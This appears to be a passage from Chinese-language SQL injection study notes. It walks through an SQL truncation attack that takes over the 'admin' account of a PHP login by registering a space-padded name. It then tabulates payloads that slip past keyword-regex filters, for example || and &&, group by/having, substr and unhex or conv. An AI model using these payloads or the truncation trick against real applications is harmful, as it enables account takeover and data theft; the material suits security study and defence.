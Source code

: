 ```
$username = addslashes(@$_POST['username']);
$password = addslashes(@$_POST['password']);
$sql = "select * from users where username = '$username' and password='$password';";
$rs = mysqli_query($conn,$sql);
if($rs->fetch_row()){
    $_SESSION['username']=$password;
}else{
    echo "fail";
}
?>
```
这里没有编码问题，也进行了转移操作，由于存在长度限制，故可尝试sql约束攻击。注册名为```admin                         1```的用户名，密码自定，随后使用admin登录，密码就是刚刚的密码，发现登录成功。(原理，注册时select的时候，超长度的字段不会截取，故检查出未注册，而insert的时候会截取前25个字符，故再进行登录的时候'admin'='admin                     '，从而登录成功)

#### 0x0c 常见过滤绕过方法

```
过滤关键字    and or
php代码    preg_match('/(and|or)/i',$id)
会过滤的攻击代码    1 or 1=1 1 and 1=1
绕过方式    1 || 1=1 1 && 1=1

过滤关键字    and or union
php代码    preg_match('/(and|or|union)/i',$id)
会过滤的攻击代码    union select user,password from users
绕过方式    1 && (select user from users where userid=1)='admin'

过滤关键字    and or union where
php代码    preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 && (select user from users where user_id = 1) = 'admin'
绕过方式    1 && (select user from users limit 1) = 'admin'

过滤关键字    and or union where
php代码    preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 && (select user from users where user_id = 1) = 'admin'
绕过方式    1 && (select user from users limit 1) = 'admin'

过滤关键字    and, or, union, where, limit
php代码    preg_match('/(and|or|union|where|limit)/i', $id)
会过滤的攻击代码    1 && (select user from users limit 1) = 'admin'
绕过方式    1 && (select user from users group by user_id having user_id = 1) = 'admin'#user_id聚合中user_id为1的user为admin

过滤关键字    and, or, union, where, limit, group by
php代码    preg_match('/(and|or|union|where|limit|group by)/i', $id)
会过滤的攻击代码    1 && (select user from users group by user_id having user_id = 1) = 'admin'
绕过方式    1 && (select substr(group_concat(user_id),1,1) user from users ) = 1

过滤关键字    and, or, union, where, limit, group by, select
php代码    preg_match('/(and|or|union|where|limit|group by|select)/i', $id)
会过滤的攻击代码    1 && (select substr(gruop_concat(user_id),1,1) user from users) = 1
绕过方式    1 && substr(user,1,1) = 'a'

过滤关键字    and, or, union, where, limit, group by, select, '
php代码    preg_match('/(and|or|union|where|limit|group by|select|\')/i', $id)
会过滤的攻击代码    1 && (select substr(gruop_concat(user_id),1,1) user from users) = 1
绕过方式    1 && user_id is not null 1 && substr(user,1,1) = 0x61 1 && substr(user,1,1) = unhex(61)

过滤关键字    and, or, union, where, limit, group by, select, ', hex
php代码    preg_match('/(and|or|union|where|limit|group by|select|\'|hex)/i', $id)
会过滤的攻击代码    1 && substr(user,1,1) = unhex(61)
绕过方式    1 && substr(user,1,1) = lower(conv(11,10,16)) #十进制的11转化为十六进制，并小写。

```